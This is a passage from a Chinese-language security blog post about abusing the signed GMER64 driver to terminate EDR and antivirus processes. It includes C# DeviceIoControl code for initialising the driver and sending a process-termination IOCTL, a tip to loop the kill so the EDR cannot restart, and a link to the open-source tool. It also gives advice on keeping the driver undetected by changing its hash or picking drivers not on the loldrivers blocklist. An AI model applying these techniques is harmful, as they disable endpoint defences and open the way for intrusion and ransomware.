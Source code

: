 接下来进行驱动初始化：

```C#
        bool result = NativeMethods.DeviceIoControl( // init_code
            hDevice,
            INITIALIZE_IOCTL_CODE,
            ref input,
            sizeof(uint),
            output,
            outputSize,
            out bytesReturned,
            IntPtr.Zero);

        if (!result)
        {
            Console.WriteLine($"Failed to send initializing request {INITIALIZE_IOCTL_CODE:X} !!");
            return;
        }

```

接下来进行进程终止，此处作为演示只终止了一次，但是EDR会存在不断拉起的情况，因此可以设置循环检测：

```C#
        // 发送IO终止符号
        result = NativeMethods.DeviceIoControl(
            hDevice,
            TERMINATE_PROCESS_IOCTL_CODE,
            ref input, // 输入PID
            sizeof(uint),
            output,
            0,
            out bytesReturned,
            IntPtr.Zero);
```

该项目目前已经开源：[Gmer64](https://github.com/10cks/Gmer64)，欢迎师傅们一起交流学习。

### 关于驱动文件免杀

驱动文件的加载需要落地（不考虑mapper的情况，而且mapper自身也需要落地），如何在不改变驱动签名的情况下进行免杀就显得十分重要了。之前看到一篇文章，能够在不改变签名的情况下通过修改 PE optional headers 中对应的字段，来在驱动文件末尾新增0x00或0x90来改变文件hash，并且不掉签名，虽然改变了hash，但是还是没起到什么作用。具体参考的文章为：[BlackHat议题解析：Windows程序的数字签名校验“漏洞”](https://cloud.tencent.com/developer/article/1040529)  
所以目前在实战中我用的是没有在loldrivers上的白驱动，但是如何对驱动免杀，我感觉依然值得讨论。

参考链接
====

[ThreadSleeper: Suspending Threads via GMER64 Driver](https://www.binarydefense.com/resources/blog/threadsleeper-suspending-threads-via-gmer64-driver/)  
[白驱动-Kill-AV/EDR下](https://myzxcg.com/2023/10/%E7%99%BD%E9%A9%B1%E5%8A%A8-Kill-AV/EDR%E4%B8%8B/)